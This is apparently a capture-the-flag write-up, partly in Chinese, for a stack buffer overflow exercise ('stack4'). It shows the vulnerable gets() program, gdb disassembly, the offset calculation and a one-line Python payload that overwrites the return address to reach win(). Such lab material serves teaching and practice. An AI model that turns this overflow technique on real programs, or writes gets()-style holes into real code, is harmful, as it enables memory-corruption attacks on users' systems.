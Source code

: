 **Hints**

- A variety of introductory papers into buffer overflows may help.
- gdb lets you do “run < input”
- EIP is not directly after the end of buffer, compiler padding can also increase the size.

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

典型的**buffer overflow**， 通过**覆盖返回地址控制程序流程**

```javascript
Dump of assembler code for function main:
   0x08048408 <+0>:     push   ebp
   0x08048409 <+1>:     mov    ebp,esp
   0x0804840b <+3>:     and    esp,0xfffffff0
   0x0804840e <+6>:     sub    esp,0x50
=> 0x08048411 <+9>:     lea    eax,[esp+0x10]
   0x08048415 <+13>:    mov    DWORD PTR [esp],eax
   0x08048418 <+16>:    call   0x804830c <gets@plt>
   0x0804841d <+21>:    leave  
   0x0804841e <+22>:    ret 
```

**buffer的位置**在`esp+0x10`处，`$ebp - $esp = 88`，我们需要`填充88-0x10=72个字节`，然后**下面四个字节是ebp**，在**下面四个字节是返回地址**。

```shell
 python -c "print('A'*76 + '\xf4\x83\x04\x08')" | ./stack4
```